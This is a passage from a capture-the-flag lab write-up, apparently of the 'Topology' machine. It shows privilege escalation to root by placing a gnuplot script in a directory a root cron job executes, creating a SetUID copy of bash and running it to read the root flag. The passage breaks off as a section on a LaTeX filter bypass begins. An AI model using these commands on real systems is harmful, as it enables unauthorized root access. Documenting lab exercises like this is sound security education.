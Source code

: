 
When the next minute rolls over, the output file is there:

    
    
    vdaisley@topology:/opt$ cat /dev/shm/0xdf-output 
    uid=0(root) gid=0(root) groups=0(root)
    

It executed as root.

#### Shell

I’ll update my `.plt` file to create a copy of `bash` owned by root with the
SetUID/SetGID bits on:

    
    
    vdaisley@topology:/opt$ cat > /opt/gnuplot/0xdf.plt << EOF
    > system("cp /bin/bash /tmp/0xdf")
    > system("chmod 6777 /tmp/0xdf")
    > EOF
    

Next minute, the file is there, and the user and group execute permissions are
`s`, showing that it worked:

    
    
    vdaisley@topology:/opt$ ls -l /tmp/0xdf 
    -rwsrwsrwx 1 root root 1183448 Sep  7 14:10 /tmp/0xdf
    

I’ll run that with `-p` to not drop privs, and get a shell as root:

    
    
    vdaisley@topology:/opt$ /tmp/0xdf -p
    0xdf-5.0# id
    uid=1007(vdaisley) gid=1007(vdaisley) euid=0(root) egid=0(root) groups=0(root),1007(vdaisley)
    

And read the second flag:

    
    
    0xdf-5.0# cat /root/root.txt
    76b6f060************************
    

## Beyond Root - Unintendeds / Filter Bypass

### equation.php

#### Interaction

The PHP on the site that handles the LaTeX is in `equation.php`. Submitting
the form generates a GET request to a URL like:

![image-20231102142008301](../img/image-20231102142008301.png)

